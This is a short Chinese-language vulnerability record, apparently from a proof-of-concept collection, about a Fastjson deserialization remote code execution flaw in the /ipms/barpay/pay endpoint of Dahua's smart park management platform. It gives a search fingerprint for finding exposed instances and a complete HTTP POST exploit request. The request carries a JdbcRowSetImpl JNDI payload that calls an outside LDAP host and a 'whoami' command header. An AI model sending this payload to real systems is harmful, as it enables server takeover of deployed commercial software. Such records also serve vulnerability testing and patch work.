 ﻿# 大华智慧园区综合管理平台 ipms_barpay_pay RCE漏洞

> 更新时间：2024-02-20

> 漏洞编号：

> 漏洞说明：大华园区综合管理平台可能是一个集成多种管理功能的平台，例如安全监控、设备管理、人员管理等。这样的平台通常有助于提高园区运营效率和安全性。

大华园区综合管理平台/ipms/barpay/pay，deleteFtp 接口处存在Fastjson反序列化漏洞 恶意攻击者可能会执行恶意代码，造成服务器失陷

> 漏洞特征：app="dahua-智慧园区综合管理平台"

> 验证脚本：HTTP

```
POST /ipms/barpay/pay HTTP/1.1
Content-Type: application/json
Accept-Encoding: gzip
Connection: close
cmd:whoami
 
{"@type": "com.sun.rowset.JdbcRowSetImpl", "dataSourceName": "ldap://www.baidu.com", "autoCommit": true}
```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：


> 验证文件来源：大华智慧园区综合管理平台 ipms_barpay_pay RCE漏洞.poc
